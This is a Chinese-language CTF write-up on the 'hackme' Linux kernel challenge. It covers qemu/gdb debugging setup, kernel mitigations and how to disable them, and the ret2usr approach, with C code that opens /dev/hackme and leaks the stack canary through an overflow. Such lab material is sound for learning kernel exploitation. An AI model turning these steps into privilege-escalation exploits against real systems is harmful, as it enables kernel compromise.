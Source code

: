 
更多qemu相关参考 https://manpages.debian.org/jessie/qemu-system-x86/qemu-system-x86_64.1.en.html

记得给qemu命令添加个-s选项(就在-append后面加个-s即可)，这样就能远程调试模拟器的kernel了。如果没有安装qemu-system-x86_64的话，可以尝试：
- `sudo apt-get install qemu-system`:这个直接把qemu-system全家桶装上了，不仅仅是qemu-system-x86_64
- `sudo apt-get install -y qemu-system-x86-64`:单纯装qemu-system-x86_64

然后运行qemu命令即可。再打开个cmd界面就能用gdb调试了。建议调试远程kernel时禁用peda, pwndbg或者GEF（这个有人说可以用，比pwndbg或者peda稳定），这些插件有时候会奇奇怪怪的。直接用`gdb --nx vmlinux`
```sh
gdb --nx vmlinux
(gdb) target remote localhost:1234 #这个localhost:1234似乎是默认的，我运行qemu后啥也没设置也能连接上
```

就像用户态程序的ASLR, stack canaries, PIE（我现在才知道这些东西叫漏洞缓解机制），kernel也有自己的漏洞缓解机制。
- [Kernel stack cookies(or canaries)](http://www.phrack.org/issues/49/14.html#article):和用户态的stack canary完全一致。编译时启用且无法被禁用
- [Kernel address space layout randomization(KASLR)](https://lwn.net/Articles/569635/)：也和用户态的ASLR相似。每次系统启动，kernel挂载时，该机制随机化kernel的基地址。可以在qemu的-append选项里添加kaslr或者nokaslr启用/禁用该功能
- [Supervisor mode execution protection(SMEP)](https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging_technologies/fischer.pdf):当进程在kernel mode的话，标记页表中所有用户态内存页不可执行。kernel中可通过设置控制寄存器CR4的第20个bit启用。用boot启动时，可通过在-cpu选项后加上+smep启用；在-append后加上nosmep禁用
- [Supervisor Mode Access Prevention(SMAP)](https://lwn.net/Articles/517475/)：当进程处于内核模式时，此功能将页表中所有用户态内存页标记为不可访问，意味着这回连读和写都不行了。kernel中可通过设置控制寄存器CR4的第21个bit启用。用boot启动时，可通过在-cpu选项后加上+smap启用；在-append后加上nosmap禁用
- [Kernel page-table isolation(KPTI)](https://lwn.net/Articles/741878/):用两组页表将用户空间和内核空间的页表完全隔离，而不是使用一个同时包含用户空间和内核空间地址的页表。可通过在-append选项后添加kpti=1或nopti启用/禁用

然后就是分析hackme.ko了（在解压后的文件系统里）。个人建议拿ida或者ghidra反编译看看，有些函数一般pwn不常见，熟悉一下。在`hackme_init`里用`misc_register`注册了一个名为hackme的设备。这段在ghidra里有点谜语人，设备的详细信息在一个名为hackme_misc的结构里，点开后有个`s_hackme_0010025c`，是设备名；`hackme_fops`是记录所有操作的结构：hackme_read, hackme_write, hackme_open和hackme_release。这意味着我们可以通过打开/dev/hackme与这个模块交互并执行读写操作。

对设备执行读或写操作会调用kernel里的hackme_read或hackme_write。代码审计部分略过，此题漏洞在于buffer overflow。

ret2usr：我们能控制用户态（userland，似乎这个翻译不太准确）的内容，那就能采用与ret2shellcode类似的思路，把shellcode放到userland，然后让程序流跳转到userland。所以可以覆盖kernel所调用函数的返回地址为shellcode所在的userland地址。因为漏洞函数是个kernel函数，所以即使我们的shellcode在userland，跳转过去后还是在kernel mode下执行。

这种办法需要关闭smep，smap，kpti和kaslr。可以说已经过时了。但是借这个漏洞poc熟悉一下kernel pwn流程还是可以的。

在与模块交互之前，需要先打开它。打开device的方法和打开普通文件的方法相同。
```c
int global_fd;
void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
}
```
然后就能用global_fd读和写了。泄露canary也不难，此题的buf为0x80字节，canary跟在后面。如果把数据读进unsigned long的数组（每个元素8字节），那么canary在偏移为16的位置。
```c
unsigned long cookie;
void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak)); //所以似乎打开device后直接就是stack了
    cookie = leak[16];
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```
我在ghidra里看到buffer在stack-0xa0,为什么这里说长度是0x80？划到函数最底下，发现pop了3个寄存器。看来kernel里栈上存储的寄存器比userland的pwn多了两个r12和rbx。再加上canary和rbp，共占0x20.0x80+0x20=0xa0，没问题。目前我们了解到了栈上的布局：
```
buf
canary
rbx
r12
rbp
```
